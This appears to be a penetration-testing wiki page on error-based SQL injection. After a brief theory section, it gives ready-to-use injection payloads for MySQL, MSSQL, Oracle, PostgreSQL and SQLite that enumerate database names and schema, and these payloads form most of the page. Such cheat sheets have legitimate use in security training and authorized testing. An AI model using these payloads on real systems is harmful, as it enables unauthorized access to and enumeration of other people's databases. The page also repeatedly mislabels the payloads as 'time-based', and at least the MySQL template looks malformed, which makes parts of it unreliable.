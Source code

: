 # Error Based

## Theory

Error-based SQLi is an in-band SQL Injection technique that relies on error messages thrown by the database server to obtain information about the structure of the database. In some cases, error-based SQL injection alone is enough for an attacker to enumerate an entire database. While errors are very useful during the development phase of a web application, they should be disabled on a live site, or logged to a file with restricted access instead.

## Practice

The process is relatively the same as [Boolean Based](boolean-based.md) injection. All you have to do is modify the payloads to trigger an error wait.

{% tabs %}
{% tab title="MySQL" %}
A time-based SQLi payload in MySQL will look like this

```bash
1' SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(database()))=1-- -

#Error Based  
1' SELECT IF((SELECT LENGTH(database()))=1,(SELECT table_name FROM information_schema.tables),'a')--
```
{% endtab %}

{% tab title="MSSQL" %}
A time-based SQLi payload in MSSQL will look like this

```bash
1'; SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LEN(DB_NAME()))=1--

#Error Based  
1'; SELECT CASE WHEN ((SELECT LEN(DB_NAME()))=1) THEN 1/0 ELSE NULL END--
```
{% endtab %}

{% tab title="OracleSQL" %}
A time-based SQLi payload in OracleSQL will look like this

```bash
1' || SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual ||--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--

#Error Based  
1' || SELECT CASE WHEN ((SELECT LENGTH(global_name) FROM global_name)=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual ||--
```
{% endtab %}

{% tab title="PostgreSQL" %}
A time-based SQLi payload in PostgreSQL will look like this

```bash
1' AND 1 = CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(current_database()))=1--

#Error Based    
1' AND 1 = CASE WHEN ((SELECT LENGTH(current_database()))=1) THEN 1/(SELECT 0) ELSE NULL END--
```
{% endtab %}

{% tab title="SQLite" %}
A time-based SQLi payload in SQLite will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1 ELSE load_extension(1) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

#Error Based  
1' AND CASE WHEN ((SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')) THEN 1 ELSE load_extension(1) END--
```
{% endtab %}
{% endtabs %}
